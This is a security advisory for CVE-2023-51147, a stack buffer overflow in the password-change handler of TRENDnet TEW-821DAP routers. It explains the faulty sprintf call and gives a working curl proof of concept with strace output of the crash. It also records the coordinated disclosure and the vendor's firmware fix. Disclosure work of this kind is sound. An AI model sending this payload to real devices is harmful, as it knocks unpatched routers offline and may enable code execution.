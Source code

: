 # Buffer overflow in adm\_mod\_pwd (CVE-2023-51147) #

## Summary
We identified a buffer overflow vulnerability on TRENDnet AC1200 TEW-821DAP device (v2.0R and v2.5R, firmware version 3.00b06). The `adm_mod_pwd` function of the device's web interface can be exploited by an authenticated attacker to trigger a Denial of Service (DoS) condition or possibly execute arbitrary code.

## Product
* TRENDnet AC1200 TEW-821DAP V2.0R (firmware 3.00b06)
* TRENDnet AC1200 TEW-821DAP V2.5R (firmware 3.00b06)

## Details
The `ssi` service is vulnerable to a security issue related with the `adm_mod_pwd` action. Specifically, parameter `username` within this action can be exploited to manipulate the return address of the corresponding request-handling function.

The root cause of this vulnerability is the missing length check of the `username` parameter before being used in the following `sprintf()` call:

```
sprintf(buffer, "grep \"^%s:\" /etc/passwd", username);
```

In the statement above, `buffer` is a 64-byte array, and `username` is a value passed via HTTP requests, with a maximum size of 256 characters. The buffer variable is located at -0x44 (-68) bytes from the stack pointer.

By sending an HTTP request with a `username` parameter containing 256 characters, an attacker can trigger a stack-based buffer overflow, leading to stack corruption.

## PoC

```
curl -i -s -k -X $'POST' \
	-H $'Host: <Target IP>' -H $'Content-Type: application/json' -H $'Authorization: Bearer 50b7332d-b6eb-44b7-99b0-6d06d52913d6' -H $'Content-Length: 314' -H $'Connection: close' \
	--data-binary $'{\"username\":\"<a x 256>\",\"password\":\"pluto\",\"action\":\"adm_mod_pwd\"}' \
	$'http://<Target IP>/apply.cgi'
```

When the request above is processed by the device web UI a stack-based buffer overflow occurs, as shown in the `strace` output below (here we traced `uhttpd`, that eventually executes the vulnerable `ssi` CGI).

```
[pid  2361] [77376c74] execve("/www/cgi/ssi", ["/www/cgi/ssi", "/www/apply.cgi"], [...]) = 0
[pid  2291] [773bcedc] write(13, "{\"username\":\"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\",\"password\":\"pluto\",\"action\":\"adm_mod_pwd\"}", 314) = 314
strace: Process 2362 attached
[...]
[pid  2363] [777cec74] execve("/bin/grep", ["grep", "^aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa:", "/etc/passwd"], [...]) = 0
[...]
[pid  2361] [77db3edc] write(2, "stack smashing detected: ", 25) = 25
[pid  2361] [77db3edc] write(2, "/www/cgi/ssi", 12) = 12
[pid  2361] [77db3edc] write(2, " terminated", 11) = 11
[pid  2361] [77db3edc] write(2, "()\n", 3) = 3
[pid  2361] [77d71664] --- SIGIOT {si_signo=SIGIOT, si_code=SI_USER, si_pid=2361, si_uid=0} ---
[pid  2361] [????????] +++ killed by SIGIOT +++
[pid  2291] [773bcedc] write(9, "HTTP/1.1 502 Bad Gateway\r\nConnection: close\r\nContent-Type: text/plain\r\nTransfer-Encoding: chunked\r\n\r\n", 101) = 101
```
## Impact
By exploiting this vulnerability it could be possible to alter the normal behavior of the web server that hosts the management GUI of the router and possibly achieve arbitrary code execution.

## Additional information

### Credit
Spike Reply Cybersecurity Team

### Disclosure Timeline

- December 6, 2023: Initial vendor contact
- December 11, 2023: Vulnerability confirmed by TRENDnet
- January 2, 2024: TRENDnet shares a preview version of the firmware that includes the security fixes 3.02B04
- January 8, 2024: Spike confirms that security fixes included in firmware 3.02B04 are effective
- January 9, 2024: TRENDnet confirms that customers will be notified about the new firmware version
- March 8, 2024: Disclosure
